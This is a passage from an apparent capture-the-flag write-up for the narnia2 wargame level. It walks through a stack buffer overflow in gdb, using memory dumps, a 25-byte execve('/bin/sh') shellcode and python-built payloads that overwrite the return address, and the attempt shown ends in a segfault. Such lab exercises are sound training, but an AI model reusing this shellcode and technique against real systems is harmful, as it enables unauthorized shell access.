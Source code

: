 again examine 140 bytes `b` before `$esp` , `-` refers backwardss

```
Breakpoint 1, 0x080491d8 in main ()
(gdb) x/-140bx $esp
0xffffd230:	0x1c	0xa0	0x04	0x08	0x38	0xd2	0xff	0xff
0xffffd238:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd240:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd248:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd250:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd258:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd260:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd268:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd270:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd278:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd280:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd288:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd290:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd298:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd2a0:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd2a8:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd2b0:	0x42	0x42	0x42	0x42	0x42	0x42	0x42	0x42
0xffffd2b8:	0x42	0x42	0x42	0x42
```

as we know that `buff` starts `0xffffd238`, you can able to look that on left side of  output

```
# we have to give shellcode + nop (132-25) * 'A' + known return address 
```

https://shell-storm.org/shellcode/files/shellcode-585.html

 25 bytes execve("/bin/sh") shellcode we have to subtract those value that why (132-25) is mentioned 

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

```
r $(python3 -c "print( '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + (132-25) * 'A' + '\xff\xff\xd2\x38' )")

Breakpoint 1, 0x080491d8 in main ()

# we forgot the little endianess  change \xff\xff\xd2\x38 to \x38\xd2\xff\xff

r $(python3 -c "print( '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + (132-25) * 'A' + '\x38\xd2\xff\xff' )")
```

exploit not working , check below images let's analyze further more 

```
Starting program: /narnia/narnia2 $(python3 -c "print( '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + (132-25) * 'A' + '\x38\xd2\xff\xff' )")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
```